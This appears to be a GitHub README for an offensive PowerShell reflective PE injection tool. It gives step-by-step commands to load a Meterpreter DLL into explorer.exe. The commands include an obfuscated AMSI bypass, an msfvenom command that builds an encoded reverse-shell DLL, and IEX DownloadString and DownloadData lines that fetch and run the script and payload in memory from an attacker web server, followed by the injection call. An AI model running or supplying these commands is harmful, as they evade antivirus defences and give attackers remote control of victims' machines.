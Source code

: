 # Invoke-ReflectivePEInjection

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.
Since the complete code is almost 3000 lines, we are not going to cover the code itself but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use a Meterpreter DLL. To reflectively load a Meterpreter DLL in explorer.exe, we are going to download it using the PowerShell DownloadData method, place it in a byte array, and look up the desired process ID.
In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we will run the commands below.

# Prerequisites:
1. Bypass PowerShell AMSI:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)
```

# How to use
1. Create a DLL payload using msfvenom and upload it to the attackers web server (_start metasploit listener with same payload parameters_):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f dll -t 300 -e x64/xor_dynamic -o met.dll
```


2. Import the _Invoke-ReflectivePEInjection.ps1_ script in this repository on the target machine:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.198/Invoke-ReflectivePEInjection.ps1')
```


3. Load the DLL (or .exe) into a byte array and retrieve the `explorer` process ID.
  (**NOTE:** _change the process based on your target environment_):
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.198/met.dll')
$procid = (Get-Process -Name explorer).Id
```


4. Supply the byte array (`-PEBytes`) and process ID (`-ProcId`) and execute the script:
```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

**Note:**
Ignore the `VoidFunc` error that appears after running the script, it is purely cosmetic:
![image](https://github.com/user-attachments/assets/29f9cab4-1e05-490d-83d6-55c71ead1ce3)

